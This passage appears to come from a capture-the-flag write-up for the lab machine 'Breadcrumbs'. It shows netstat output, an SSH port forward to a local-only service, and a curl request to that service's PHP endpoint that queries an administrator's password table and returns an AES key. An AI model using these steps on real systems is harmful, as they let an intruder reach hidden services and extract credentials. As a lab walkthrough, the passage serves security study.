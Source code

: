 [![ghidra_krypter.png](/img/breadcrumbs/ghidra_krypter.png)](/img/breadcrumbs/ghidra_krypter.png)

Checking open ports on the machine we see that port 1234 is indeed listening on localhost of the machine.

```php
development@BREADCRUMBS C:\Users\development>netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
...[snip]...
  TCP    127.0.0.1:1234         0.0.0.0:0              LISTENING
...[snip]...
```

To access it from our machine we forward it through the SSH tunnel. To enter the SSH command line press `~C` on a new line.

```php
PS C:\Users\development> 
ssh> -L:1234:127.0.0.1:1234
Forwarding port.

```

Curling the service now with the earlier found query we get what looks like an AES key.

```php
$ curl 'localhost:1234/index.php?method=select&username=administrator&table=passwords'
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```
